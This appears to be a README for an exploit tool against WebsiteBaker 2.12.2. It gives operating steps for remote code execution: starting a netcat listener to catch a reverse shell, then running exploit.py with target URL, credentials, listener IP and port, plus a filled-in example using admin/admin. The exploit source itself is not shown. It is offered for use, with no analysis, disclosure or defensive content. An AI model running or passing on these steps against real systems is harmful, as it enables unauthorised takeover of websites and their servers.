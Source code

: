# WebsiteBaker 2.12.2 - Remote Code Execution

First Start Listener With Netcat : nc -lvnp 4444

Then Use Exploit

Usage: python exploit.py -t TARGET_URL -u USERNAME -p PASSWORD --lhost LISTENER_IP --lport LISTENER_PORT

Example: python exploit.py -t http://192.168.1.104/WebsiteBaker -u admin -p admin --lhost 192.168.1.103 --lport 4444

# Notes:

Authentication is Required to Exploit Vulnerability

Exploit is For Linux Targets!
